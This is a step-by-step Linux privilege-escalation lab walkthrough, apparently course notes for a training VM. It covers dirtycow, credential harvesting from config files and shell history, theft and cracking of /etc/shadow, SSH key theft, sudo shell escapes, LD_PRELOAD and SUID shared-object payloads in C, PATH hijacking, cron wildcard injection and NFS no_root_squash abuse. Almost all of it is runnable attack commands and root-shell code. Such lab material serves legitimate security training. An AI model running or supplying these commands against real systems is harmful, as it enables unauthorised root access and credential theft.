

2020/11/16
- All tools needed to complete this course are in the user folder (/home/user/tools).
- Kernel Exploits
- Detection
- Linux VM
- In command prompt type:
/home/user/tools/linux-exploit-suggester/linux-exploit-suggester.sh
- From the output, notice that the OS is vulnerable to
“dirtycow”.
- 
- Exploitation
- Linux VM
- In command prompt type: gcc -pthread
/home/user/tools/dirtycow/c0w.c -o c0w
- In command prompt type: ./c0w
- In command prompt type: passwd
- In command prompt type: id
- Stored Passwords (Config Files)
- Exploitation
- Linux VM
- In command prompt type: cat
/home/user/myvpn.ovpn

- From the output, make note of the value of the
“auth-user-pass” directive.
- In command prompt type: cat /etc/openvpn/auth.txt

- From the output, make note of the clear-text credentials.
- In command prompt type: cat /home/user/.irssi/config |
grep -i passw
- From the output, make note of the clear-text
credentials.

- Stored Passwords (History)
- Exploitation
- Linux VM
- In command prompt type: cat ~/.bash_history | grep -i
passw
- From the output, make note of the clear-text
credentials.

- Weak File Permissions
- Detection
- Linux VM
- In command prompt type: ls -la /etc/shadow
- Note the file permissions

- Exploitation
- Linux VM
- In command prompt type: cat /etc/passwd

- Save the output to a file on your attacker machine
- In command prompt type: cat /etc/shadow

- Save the output to a file on your attacker machine
- Attacker VM
- In command prompt type: unshadow <PASSWORD-FILE>
<SHADOW-FILE> > unshadowed.txt

- Now, you have an unshadowed file.
- Crack the hashes: hashcat -m 1800 unshadowed.txt
rockyou.txt -O

- SSH Keys
- Detection
- Linux VM
- In command prompt type: find / -name authorized_keys
2> /dev/null

- In a command prompt type: find / -name id_rsa 2>
/dev/null
- Note the results.

- Exploitation
- Linux VM
- Copy the contents of the discovered id_rsa
file to a file on your attacker VM.

- Attacker VM
- In command prompt type: chmod 400 id_rsa

- In command prompt type: ssh -i id_rsa
root@<ip>

- Sudo (Shell Escaping)
- Detection
- Linux VM
- In command prompt type: sudo -l

- From the output, notice the list of programs that can run
via sudo.
- Exploitation
- Linux VM
- In command prompt type any of the following:
-
- sudo find /bin -name nano -exec /bin/sh \;
- sudo awk 'BEGIN {system("/bin/sh")}'
- echo "os.execute('/bin/sh')" > shell.nse
&& sudo nmap --script=shell.nse
- sudo vim -c '!sh'

- Sudo (Abusing Intended Functionality)
- Detection
- Linux VM
- In command prompt type: sudo -l
- From the output, notice the list of programs that can run
via sudo.
- Exploitation
- Linux VM
- In command prompt type: sudo apache2 -f /etc/shadow
- From the output, copy the root hash.

- Attacker VM
- Open command prompt and type: echo '[Pasted Root Hash]'
> hash.txt
- In command prompt type: john
--wordlist=/usr/share/wordlists/nmap.lst hash.txt
- From the output, notice the cracked credentials.

- Sudo (LD_PRELOAD)
- Detection
- Linux VM
- In command prompt type: sudo -l
- From the output, notice that the LD_PRELOAD environment
variable is intact.

- Exploitation
- Open a text editor and type:
-
- #include <stdio.h>
- #include <sys/types.h>
- #include <stdlib.h>
- void _init() {
- unsetenv("LD_PRELOAD");
- setgid(0);
- setuid(0);
- system("/bin/bash");
- }
- Save the file as x.c
- In command prompt type: gcc -fPIC -shared -o /tmp/x.so
x.c -nostartfiles
- In command prompt type: sudo LD_PRELOAD=/tmp/x.so
apache2
- In command prompt type: id

- SUID (Shared Object Injection)
- Detection
- Linux VM
- In command prompt type: find / -type f -perm
-04000 -ls 2>/dev/null
- From the output, make note of all the SUID
binaries.

- In command line type: strace /usr/local/bin/suid-so
2>&1 | grep -i -E "open|access|no such file"
- From the output, notice that a .so file is missing from a
writable directory.

- Exploitation
- Linux VM
- In command prompt type: mkdir /home/user/.config
- In command prompt type: cd /home/user/.config
- Open a text editor and type:
-
- #include <stdio.h>
- #include <stdlib.h>
- static void inject()
__attribute__((constructor));
- void inject() {
- system("cp /bin/bash /tmp/bash
&& chmod +s /tmp/bash && /tmp/bash -p");
- }
- Save the file as libcalc.c
- In command prompt type: gcc -shared -o
/home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
- In command prompt type: /usr/local/bin/suid-so
- In command prompt type: id

- SUID (Symlinks)
- Detection
- Linux VM
- In command prompt type: dpkg -l | grep nginx
- From the output, notice that the installed
nginx version is below 1.6.2-5+deb8u3.

- Exploitation
- Linux VM – Terminal 1
- In command prompt type:
/home/user/tools/nginx/nginxed-root.sh /var/log/nginx/error.log

- At this stage, the system waits for logrotate to execute.
- In order to speed up the process, this will be simulated
by connecting to the Linux VM via a different terminal.
- Linux VM – Terminal 2
- As root, type the following: invoke-rc.d nginx rotate
>/dev/null 2>&1

- Switch back to the previous terminal.
- Linux VM – Terminal 1
- From the output, notice that the exploit continued its
execution.
- In command prompt type: id

- SUID (Environment Variables #1)
- Detection
- Linux VM
- In command prompt type: find / -type f -perm -04000 -ls
2>/dev/null

- From the output, make note of all the SUID binaries.
- In command prompt type: strings
/usr/local/bin/suid-env

- From the output, notice the functions used by the binary.
- Exploitation
- Linux VM
- In command prompt type: echo 'int main() { setgid(0);
setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c
- In command prompt type: gcc /tmp/service.c -o
/tmp/service
- In command prompt type: export PATH=/tmp:$PATH
- In command prompt type: /usr/local/bin/suid-env
- In command prompt type: id

- SUID (Environment Variables #2)
- Detection
- Linux VM
- In command prompt type: find / -type f -perm -04000 -ls
2>/dev/null
- From the output, make note of all the SUID binaries.
- In command prompt type: strings
/usr/local/bin/suid-env2
- From the output, notice the functions used by the binary.

- Exploitation Method #1
- Linux VM
- In command prompt type: function
/usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash &&
/tmp/bash -p; }
- In command prompt type: export -f
/usr/sbin/service
- In command prompt
type: /usr/local/bin/suid-env2
- Exploitation Method #2
- Linux VM
- In command prompt type: env -i SHELLOPTS=xtrace
PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s
/tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'

- Capabilities
- Detection
- Linux VM
- In command prompt type: getcap -r / 2>/dev/null
- From the output, notice the value of the
“cap_setuid” capability.

- Exploitation
- Linux VM
- In command prompt type: /usr/bin/python2.6 -c 'import
os; os.setuid(0); os.system("/bin/bash")'

- Cron (Path)
- Detection
- Linux VM
- In command prompt type: cat /etc/crontab
- From the output, notice the value of the
“PATH” variable.

- Exploitation
- Linux VM
- In command prompt type: echo 'cp /bin/bash /tmp/bash;
chmod +s /tmp/bash' > /home/user/overwrite.sh
- In command prompt type: chmod +x
/home/user/overwrite.sh
- Wait 1 minute for the Bash script to execute.
- In command prompt type: /tmp/bash -p
- In command prompt type: id

- Cron (Wildcards)
- Detection
- Linux VM
- In command prompt type: cat /etc/crontab

- From the output, notice the script
“/usr/local/bin/compress.sh”
- In command prompt type: cat
/usr/local/bin/compress.sh

- From the output, notice the wildcard (*) used by ‘tar’.
- Exploitation
- Linux VM
- In command prompt type:
-
- echo 'cp /bin/bash /tmp/bash; chmod +s
/tmp/bash' > /home/user/runme.sh
- touch /home/user/--checkpoint=1
- touch /home/user/--checkpoint-action=exec=sh\
runme.sh
- Wait 1 minute for the Bash script to execute.
- In command prompt type: /tmp/bash -p
- In command prompt type: id

-
- Cron (File Overwrite)
- Detection
- Linux VM
- In command prompt type: cat /etc/crontab
- From the output, notice the
script “overwrite.sh”
- In command prompt type: ls -l
/usr/local/bin/overwrite.sh
- From the output, notice the file permissions.

- Exploitation
- Linux VM
- In command prompt type: echo 'cp /bin/bash /tmp/bash;
chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh
- Wait 1 minute for the Bash script to execute.
- In command prompt type: /tmp/bash -p
- In command prompt type: id

-
- NFS Root Squashing
- Detection
- Linux VM
- In command line type: cat /etc/exports
- From the output, notice
that “no_root_squash” option is defined for the
“/tmp” export.

- Exploitation
- Attacker VM
- Open command prompt and type: showmount -e
10.10.63.72

- In command prompt type: mkdir /tmp/1
- In command prompt type: mount -o rw,vers=2
10.10.63.72:/tmp /tmp/1
- In command prompt type: echo 'int main() { setgid(0);
setuid(0); system("/bin/bash"); return 0; }' > /tmp/1/x.c
- In command prompt type: gcc /tmp/1/x.c -o /tmp/1/x
- In command prompt type: chmod +s /tmp/1/x

- Linux VM
- In command prompt type: /tmp/x
- In command prompt type: id